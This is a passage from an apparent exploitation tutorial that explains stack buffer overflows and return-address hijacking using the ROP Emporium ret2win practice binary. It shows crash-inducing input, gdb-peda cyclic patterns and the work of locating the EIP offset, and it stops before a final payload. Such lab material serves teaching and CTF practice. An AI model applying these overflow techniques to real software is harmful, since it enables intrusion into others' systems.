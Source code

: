 Below isn't how it actually works but will illustrate it hopefully.

```asm
pop ebx
jmp ebx
```
If you're interested in a more detailed exploration of how the stack works, Gustavo Duarte's [Journey to the Stack](http://duartes.org/gustavo/blog/post/journey-to-the-stack/) is a great read.

Hopefully, now we can see how we can hijack command of a program's execution rather than just overwriting variables, with this technique.  If we can overwrite enough past our buffer, we can overwrite the saved return address.  Once a `ret` is called, the address we've overwritten will be jumped to.  So how do we use this?

### Example - ret2win

We'll be using the first binary challenge on [ropemporium](https://ropemporium.com/challenge/ret2win.html), called ret2win for this.  For this we're going to be hijacking execution of the program.

When an unreachable address is jumped to for execution, the program will exit in a segmentation fault.  If we want to execute an arbitrary command, all we have to do is force a segmentation fault to prove that we've overwritten the saved return address.  So lets load up the binary and input some text.

```bash
root@kali:~/Downloads# python -c 'print "A"*200' | ./ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Segmentation fault
```

Boom!  We got a segmentation fault, but it doesn't give us much of a clue how many bytes we'll need to overwrite.  We can either modify the amount we overwrite byte by byte, or use a cyclic sequence to read off the location of EIP.  Metasploit has it's `pattern_create.rb` and [PEDA](https://github.com/longld/peda) has it's own `pattern create`.

We'll create a buffer of length 200, and see the value that `eip` segfaults on.

```gdb
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
Starting program: /root/Downloads/ret2win32 
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
```
